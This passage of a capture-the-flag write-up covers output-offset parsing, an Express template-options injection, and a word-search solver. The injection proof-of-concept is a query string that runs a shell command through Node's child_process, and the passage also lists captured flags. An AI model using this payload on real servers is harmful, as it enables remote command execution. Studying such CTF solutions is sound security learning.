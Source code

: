 *Note that I will be explaining in zero-indexing format*

Let’s call this output `flag`, so for `flag[0]` to `flag[4]` are all spaces.

Afterwards `flag[5]` is the line number. `flag[6]` is a space, `flag[7]` is the hashtag symbol followed by one more space on `flag[8]`.

Now from `flag[9]` is offset where the actual flag can be found. Thus, the main rationale is to prevent checking the non-essential values, we just work from `flag[9]` onwards.

Also, the reason for using a `time.sleep(0.25)` was because of my script failing initially which I thought was due to my own script issues but turned out to be me getting rate-limited by SEE server since there was too much request over a period of time.

### References

```python
# https://hackmd.io/@Chivato/HyWsJ31dI
```

## Express JavaScript Security (YEET, do another time)

### PoC

```python
greet?name=&settings[view%20options][client]=true&settings[view%20options][escape]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27/readflag%27);
```

### Flag

```python
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```

# MISC

## Word Solver (IGNORE ME. Document another day)

Credits to [https://github.com/James231/Wordsearch-Solver-Python](https://github.com/James231/Wordsearch-Solver-Python)

Not the fastest solve definitely, but just pure modifications to existing code.

Modified abit of the code to perform a somewhat binary search with the DFS algorithm employed by the solver.

Damn the flag is long af

```python
['SEE{y', 'SEE{yo', 'SEE{you', 'SEE{you_', 'SEE{you_f', 'SEE{you_fo', 'SEE{you_fou', 'SEE{you_foun', 'SEE{you_found', 'SEE{you_found_', 'SEE{you_found_m', 'SEE{you_found_me', 'SEE{you_found_me_', 'SEE{you_found_me_n', 'SEE{you_found_me_no', 'SEE{you_found_me_now', 'SEE{you_found_me_now_', 'SEE{you_found_me_now_t', 'SEE{you_found_me_now_tr', 'SEE{you_found_me_now_try', 'SEE{you_found_me_now_try_', 'SEE{you_found_me_now_try_t', 'SEE{you_found_me_now_try_th', 'SEE{you_found_me_now_try_the', 'SEE{you_found_me_now_try_the_', 'SEE{you_found_me_now_try_the_1', 'SEE{you_found_me_now_try_the_13', 'SEE{you_found_me_now_try_the_133', 'SEE{you_found_me_now_try_the_1337', 'SEE{you_found_me_now_try_the_1337e', 'SEE{you_found_me_now_try_the_1337er', 'SEE{you_found_me_now_try_the_1337er_', 'SEE{you_found_me_now_try_the_1337er_o', 'SEE{you_found_me_now_try_the_1337er_on', 'SEE{you_found_me_now_try_the_1337er_one', 'SEE{you_found_me_now_try_the_1337er_one}']
```
